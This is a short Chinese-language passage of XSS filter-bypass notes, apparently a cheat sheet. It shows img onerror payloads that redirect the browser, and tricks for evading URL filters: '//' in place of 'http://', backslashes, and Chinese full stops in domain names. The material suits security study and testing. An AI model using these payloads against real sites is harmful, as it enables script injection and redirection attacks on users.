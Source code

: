 #### 用`//`代替`http://`

```html
<img src="x" onerror=document.location=`//www.baidu.com`>
```

#### 用`\\`代替`http://`（服务器是Linux系统可以绕过,Windows则不行）

```
要注意在windows中\本身就有特殊用途，是一个path的写法，所以\\在Windows下是file协议，在linux中才会是当前域的协议
```

#### 用`。`中文句号代替`.`英文句号

如果你在你在域名中输入`。`中文的句号，浏览器会自动转化成`.`英文的句号

```html
<img src="x" onerror="document.location=`http://www。baidu。com`">  //会自动跳转到百度
```

### 特别致谢，参考文章：https://www.freebuf.com/vuls/287655.html